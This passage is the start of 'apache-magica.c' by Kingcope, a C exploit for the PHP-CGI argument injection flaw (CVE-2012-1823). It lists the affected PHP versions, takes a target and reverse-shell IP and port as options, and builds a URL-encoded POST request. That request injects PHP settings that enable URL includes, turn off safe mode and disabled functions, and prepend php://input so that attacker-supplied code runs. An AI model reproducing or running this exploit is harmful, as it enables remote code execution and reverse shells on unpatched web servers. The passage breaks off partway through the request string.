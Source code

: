 > PHP 5.2.6-3
> PHP 5.2.6+lenny16 with Suhosin-Patch
> Affected versions
> PHP prior to 5.3.12
> PHP prior to 5.4.2
> Unaffected versions
> PHP 4 - getopt parser unexploitable
> PHP 5.3.12 and up
> PHP 5.4.2 and up
> Unaffected versions are patched by CVE-2012-1823.
> */
> /*    .
>      /'\rrq rk
>  .  // \\  .
> .x.//fco\\-|-
>  '//cmtco\\zt
>  //6meqrg.\\tq
> //_________\\'
> EJPGQO
> apache-magica.c by Kingcope
> */
> 
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> #include <getopt.h>
> #include <sys/types.h>
> #include <stddef.h>
> #include <openssl/rand.h>
> #include <openssl/ssl.h>
> #include <openssl/err.h>
> #include <netdb.h>
> #include <sys/socket.h>
> #include <netinet/in.h>
> 
> typedef struct {
>     int sockfd;
>     SSL *handle;
>     SSL_CTX *ctx;
> } connection;
> 
> void usage(char *argv[])
> {
>   printf("usage: %s <--target target> <--port port> <--protocol http|https> "   
>   "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
>    argv[0]);
>   exit(1);
> }
> 
> char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"   
>  "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"   
>  "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"   
>  "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"   
>  "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"   
>  "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"   
>  "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"   
>  "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"   
>  "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"   
>  "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"   
>  "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"   
>  "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"   
>  "Host: %s\r\n"   
>  "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"   
>  "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"   